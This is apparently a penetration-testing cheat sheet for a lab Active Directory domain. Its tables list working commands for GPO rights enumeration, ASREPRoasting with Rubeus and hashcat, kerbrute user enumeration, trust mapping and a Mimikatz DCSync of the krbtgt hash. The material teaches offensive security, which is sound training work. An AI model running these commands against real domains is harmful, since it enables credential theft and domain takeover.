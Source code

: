 | `$sid=Convert-NameToSid "Domain Users"`                               | Creates a variable called `$sid` that is set equal to the `Convert-NameToSid` tool and specifies the group account `Domain Users`. Performed from a Windows-based host. |
| `Get-DomainGPO \| Get-ObjectAcl \| ?{$_.SecurityIdentifier -eq $sid`  | PowerView tool that is used to check if the `Domain Users` (`eq $sid`) group has any rights over one or more GPOs. Performed from a Windows-based host.                 |
| `Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532`                  | PowerShell cmd-let used to display the name of a GPO given a `GUID`. Performed from a Windows-based host.                                                               |

## ASREPRoasting

| Command                                                                                                  | Description                                                                                                                                                                             |
| -------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-DomainUser -PreauthNotRequired \| select samaccountname,userprincipalname,useraccountcontrol \| fl` | PowerView based tool used to search for the `DONT_REQ_PREAUTH` value across in user accounts in a target Windows domain. Performed from a Windows-based host.                           |
| `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`                                          | Uses `Rubeus` to perform an `ASEP Roasting attack` and formats the output for `Hashcat`. Performed from a Windows-based host.                                                           |
| `hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt`                                      | Uses `Hashcat` to attempt to crack the captured hash using a wordlist (`rockyou.txt`). Performed from a Linux-based host.                                                               |
| `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`                               | Enumerates users in a target Windows domain and automatically retrieves the `AS` for any users found that don't require Kerberos pre-authentication. Performed from a Linux-based host. |

## Trust Relationships - Child > Parent Trusts

| Command                                                                                                                                                                                                                         | Description                                                                                                                                      |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| `Import-Module activedirectory`                                                                                                                                                                                                 | Used to import the `Active Directory` module. Performed from a Windows-based host.                                                               |
| `Get-ADTrust -Filter *`                                                                                                                                                                                                         | PowerShell cmd-let used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host.                         |
| `Get-DomainTrust`                                                                                                                                                                                                               | PowerView tool used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host.                             |
| `Get-DomainTrustMapping`                                                                                                                                                                                                        | PowerView tool used to perform a domain trust mapping from a Windows-based host.                                                                 |
| `Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL \| select SamAccountName`                                                                                                                                                 | PowerView tools used to enumerate users in a target child domain from a Windows-based host.                                                      |
| `mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt`                                                                                                                                                                             | Uses Mimikatz to obtain the `KRBTGT` account's `NT Hash` from a Windows-based host.                                                              |
| `Get-DomainSID`                                                                                                                                                                                                                 | PowerView tool used to get the SID for a target child domain from a Windows-based host.                                                          |